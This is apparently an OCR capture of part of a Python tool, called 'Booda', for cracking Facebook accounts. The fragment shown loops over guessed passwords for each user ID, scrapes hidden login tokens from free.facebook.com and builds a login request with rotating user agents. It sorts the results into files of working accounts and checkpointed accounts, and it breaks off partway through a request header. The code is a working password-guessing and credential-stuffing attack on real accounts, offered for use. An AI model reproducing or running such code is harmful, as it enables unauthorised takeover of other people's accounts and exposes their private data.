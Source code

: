             yaari.submit(rcrack,uid,pwx,tl)

    linex()

    print(' Crack process has been completed')

    print(' Ids saved in Booda-OK.txt,in cp Booda-CP.txt')

    linex()

    input(' Press Enter to Back')    

    os.system('python Booda.py')

  

def rcrack(uid,pwx,tl):

    #print(user)

    global loop

    global cps

    global oks

    global proxy

    try:

        for ps in pwx:

            pro = random.choice(ugen)

            session = requests.Session()

            free_fb = session.get(f'https://free.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "try_number":"0",

            "unrecognized_tries":"0",

            "email":uid,

            "pass":ps,

            "login":"Log In"}

            header_freefb = {'authority':'p.facebook.com',

			'method':'GET',

			'path':'/?tbua=1',

			'scheme':'https',
